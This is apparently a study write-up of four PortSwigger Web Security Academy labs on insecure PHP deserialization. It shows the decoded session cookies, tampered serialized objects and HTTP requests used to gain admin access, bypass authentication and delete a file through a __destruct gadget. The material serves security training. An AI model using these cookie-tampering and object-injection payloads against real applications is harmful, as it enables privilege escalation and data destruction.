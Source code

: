 ## Lab - 1: Modifying serialized objects (A)

- This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account. You can log in to your own account using the following credentials: wiener:peter

- enter with the user `wiener` and at my-account page

```
GET /my-account HTTP/1.1
Host: 0af2008803bc0d5cc0878b8500100022.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
...
```

- we are interested in the `Cookie: session` and if select that value ('Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d') in Burp (after decoding from URL and base64), the following result will be seen.

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

- send it to Repeater and change the `b:0` to `b:1`

- then send request to `/admin` and found an admin interface

```
GET /admin/delete?username=carlos HTTP/1.1
Host: 0af2008803bc0d5cc0878b8500100022.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d
...
```

---

## Lab - 2: Modifying serialized data types (P)

- This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos. You can log in to your own account using the following credentials: wiener:peter

- login with wiener
- session cookie is as follow:

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkY3FvNWVqcHo2dHR3aWEzcDlka3AwbGR5bm13YjhpdyI7fQ%3d%3d
```

- after encoding

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dcqo5ejpz6ttwia3p9dkp0ldynmwb8iw";}
```

- if try to access `/admin` panel -> 401 response

- change the session cookie as follow:

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

- the encoded version as follow

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

- now we can access as administrator

---

## Lab - 3: Using application functionality to exploit insecure deserialization (P)

- This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory. You can log in to your own account using the following credentials: wiener:peter ;You also have access to a backup account: gregg:rosebud

- login with `wiener` account and Delete the account
- grep the POST request of delete

```
POST /my-account/delete HTTP/1.1
Host: 0a81005a0389f349c00ec163003900e5.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3NTFpdjI4YmZlcnFqb3hqNmw5d2tjMzZ5em13dXNuYyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```

- after decoding the session cookie:

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"w51iv28bferqjoxj6l9wkc36yzmwusnc";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

- changing the cookie into

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"w51iv28bferqjoxj6l9wkc36yzmwusnc";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

- then decode and send this request

---

## Lab - 4: Arbitrary object injection in PHP (P)

- This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab. You can log in to your own account using the following credentials: wiener:peter

- login with `wiener`
- in Burp sitemap, there is a file at `/libs/CustomTemplate.php`
- GET request to this file appending `~` to read the source code, like this

```
GET /libs/CustomTemplate.php~ HTTP/1.1
Host: 0a9f00900498ae1cc14c3e3a00b40062.web-security-academy.net
```

- in response, find a magic function `__destruct()`

```php
<?php
class CustomTemplate {
    ...
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
?>
```

- send a request containing the session cookie to Burp Repeater
- replace the session cookie with the following

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

---
